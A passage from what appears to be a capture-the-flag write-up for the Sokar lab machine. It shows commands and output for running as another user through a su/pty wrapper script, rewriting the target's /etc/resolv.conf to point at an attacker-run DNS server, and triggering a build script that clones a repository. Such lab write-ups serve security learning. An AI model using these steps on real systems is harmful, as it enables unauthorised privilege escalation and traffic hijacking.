 Testing my DNS server proved that it was working just fine:

```bash
leonjza@kali/sokar $ dig sokar-dev @127.0.0.1

; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> sokar-dev @127.0.0.1
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48044
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;sokar-dev.         IN  A

;; ANSWER SECTION:
sokar-dev.      0   IN  A   192.168.217.174

;; Query time: 13 msec
;; SERVER: 127.0.0.1#53(127.0.0.1)
;; WHEN: Tue Feb  3 12:12:02 2015
;; MSG SIZE  rcvd: 43
```

Awesome. The next step was to replace the contents of Sokar's `/etc/resolv.conf` so that the dns server to use is *192.168.217.174* with the command `python apophis.py "echo \"nameserver\ 192.168.217.174\" > /etc/resolv.conf"` and confirm that it worked:

```bash
leonjza@kali/sokar $ python apophis.py "cat /etc/resolv.conf"
 * Executing /usr/bin/python -c "import time; time.sleep(2); print 'overdrive'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su', '-l', '-c','cat /etc/resolv.conf', 'apophis']);"

Password:
nameserver 192.168.217.174
```

Great. Testing time!

```bash
leonjza@kali/sokar $ python apophis.py "echo Y | /home/apophis/build"
 * Executing /usr/bin/python -c "import time; time.sleep(2); print 'overdrive'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su', '-l', '-c','echo Y | /home/apophis/build', 'apophis']);"

Password:
Cloning into '/mnt/secret-project'...
Host key verification failed.
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
Build? (Y/N)
```

Yesssssss, and nooooooooo. From the `dnsmasq` console output I could see the request for `sokar-dev` coming in and a reply getting sent:
